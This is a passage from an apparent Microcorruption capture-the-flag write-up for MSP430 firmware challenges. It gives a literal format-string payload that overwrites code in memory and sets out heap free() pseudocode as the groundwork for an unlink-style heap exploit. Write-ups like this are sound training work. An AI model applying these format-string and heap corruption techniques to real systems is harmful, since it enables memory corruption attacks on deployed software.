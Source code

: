 ```
4496:  023c           jmp	#0x449c <main+0x64>
4498:  3012 1a45      push	#0x451a "That username is not valid."
449c:  b012 c645      call	#0x45c6 <printf>
44a0:  0f43           clr	r15
44a2:  3150 f601      add	#0x1f6, sp
```

This is also a format string challenge. Because there is no memory protection, we can just override the assembly instructions. In this case, I changed `44c6:  3012 7e00      push	#0x7e` to `44c6:  3012 7e00      push	#0x7f` which did the job.

password 1: `c844 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4125 6E`

# Algiers - 100pts

```
void free(void *ptr) {

r15 -= 0x6;                 // get real start
r13 = *(r15+0x4) & 0xfffe;  // get real size
r15[+0x4] = r13;            // set last bit to zero
r14 = *r15;                 // prev block pointer
r12 = *(r14+0x4);           // size of the prev block

if (r12 & 0x1 == 0) {       // if the prev block is empty
  r12 += 0x6;               // add the meta data size
  r12 += r13;               // add the current block size
  r14[+0x4] = r12;          // set new size
  r14[+0x2] = *(r15+0x2);   // set the next block of the prev block to the next block of the current block
  r13 = *(r15+0x2);         // r13 to be the next block
  r13[] = r14               // mov the prev block to be the prev block of the next block
  r15[] = *r15;             // write the prev block of the current block to be the current block
}

r14 = *(r15+0x2);           // get the next block
r13 = *(r14+0x4);           // get the size of the next block

if (r13 & 0x1 == 0) {       // if the next block is empty
  454a:  1d5f 0400      add	0x4(r15), r13
  454e:  3d50 0600      add	#0x6, r13
  4552:  8f4d 0400      mov	r13, 0x4(r15)
  4556:  9f4e 0200 0200 mov	0x2(r14), 0x2(r15)
  455c:  8e4f 0000      mov	r15, 0x0(r14)
}
}
```
